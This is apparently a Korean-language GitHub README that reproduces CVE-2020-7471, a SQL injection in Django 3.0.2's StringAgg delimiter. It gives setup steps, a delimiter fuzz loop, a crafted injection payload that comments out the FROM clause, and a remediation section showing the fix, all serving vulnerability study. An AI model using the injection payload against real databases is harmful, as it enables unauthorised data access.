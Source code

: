 # CVE-2020-7471

## 1. 환경 구성
+ **Ubuntu 20.04 버전**

+ **python 3.8.2 버전**

+ **Django 3.0.2 설치**
  + pip install django~=3.0.2
 
+ **postgresql 13 설치**
  + sudo apt-get update
  + sudo apt show postgresql
  + sudo apt -y install postgresql postgresql-contrib
  + /etc/init.d/postgresql start
 
+ **가상환경 구성**
  + virtualenv newenv
  + source newenv/bin/activate
  + pip install django~=3.0.2
  + django-admin --version
  + deactivate
 
+ **psycopg2 설치**
  + pip install psycopg2==2.8.6
+ **setting.py 설정**  
```
#setting.py

DATABASES = {
    'default': {
        'ENGINE': 'django.db.backends.postgresql',
        'NAME': 'hxd',         
        'USER': 'postgres',
        'PASSWORD': '123456',
        'HOST': '127.0.0.1',
        'PORT': '5432',
    }
}
```
+ **마이그레이션**
```
#DB에 적용하는 과정
python3 manage.py migrate

#test_app 앱을 테이블 스키마를 생성 혹은 수정하기 위한 명령어
python3 manage.py makemigrations test_app

#test_app 앱을 DB에 적용하는 과정
python3 manage.py migrate test_app
```
+ **DB 생성**
  + CREATE DATABASES test
  + DB 조회: \c test
  + 테이블 조회: \d
  + 컬럼 조회: select * from vul_app_info;
 
    ![Untitled](https://user-images.githubusercontent.com/89399749/130726521-f428a240-12d5-401e-aec5-cccfd4b357f5.png)

--------------------------------------------------------------------------------------------------------------------------
## 2. PoC
### 내부 파이썬 환경에서만 테스트 
+ **구분 기호가 SQL 인젝션을 일으키는 방법을 테스트하기 위한 FUZZ 프로그램**
```
for c in "!@#$%^&*()_+=-|\\\"':;?/>.<,{}[]":
    results = Info.objects.all().values('gender').annotate(mydefinedname=StringAgg('name',delimiter=c))
    for e in results:
        pass
```
 + **정상적인 SQL 구문 출력**
```
Info.objects.all().values('gender').annotate(mydefinedname=StringAgg('name', delimiter="-"))
```

   ![6](https://user-images.githubusercontent.com/89399749/130728444-95f099dd-6847-462c-b09c-370fb4581b75.png)


  + **SQL Injection 구문**
```
Info.objects.all().values('gender').annotate(mydefinedname=StringAgg('name', delimiter="-\') AS "mydefinedname" FROM "vul_app_info" GROUP BY "vul_app_info"."gender" LIMIT 1 OFFSET 1 --"))
```

   ![7](https://user-images.githubusercontent.com/89399749/130728459-a5e5520d-0fcd-4f06-81c7-b4a123f21896.png)


+ **python CVE-2020-7471.py**

![8](https://user-images.githubusercontent.com/89399749/130728470-999e9e69-f35f-4c29-a3a8-42eaf3628f81.png)


---------------------------------------------------------------------------------------------------------------------

## 3. 대응방안

+ **테스트결과 작은따음표가 이스케이프 없이 SQL 문에 포함되어 오류 메시지를 출력**

  ![2](https://user-images.githubusercontent.com/89399749/130898422-3cf70a46-237a-497c-9546-792e2021fd2a.png)


+ **self.cursor.execute를 호출하며 변수 창의 SQL 변수가 아직 delimiter 값을 포함하지 않음을 확인**

![3](https://user-images.githubusercontent.com/89399749/130728343-d2a15c5d-523a-4cab-a325-6b0fb36f1b9b.png)  

+ **86행에 SQL이 delimiter 값을 작음따음표로 추가한것을 확인**

![4](https://user-images.githubusercontent.com/89399749/130728349-c43d4473-ad36-47ca-aad9-76c6bb24f16f.png)


+ **작음따음표 와 괄호 닫기를 사용하여 FROM문이 주석처리됨을 확인**


![5](https://user-images.githubusercontent.com/89399749/130728431-cb76a989-823a-4710-b27a-e6b1699a2052.png)


+ **delimiter_expr = Value(str(delimiter))**
  + **해당 문장을 추가하여 SQL 매개변수가 이스케이프 되지않도록 조치해야함**

![9](https://user-images.githubusercontent.com/89399749/130728481-ffc3b15b-569f-4ab5-a231-7bfa53ce78e2.png)

---------------------------------------------------------------------------------------------------------------------

## 4. 참조
+ https://github.com/Safeman/CVE-2020-7471
+ https://www.heibai.org/1661.html
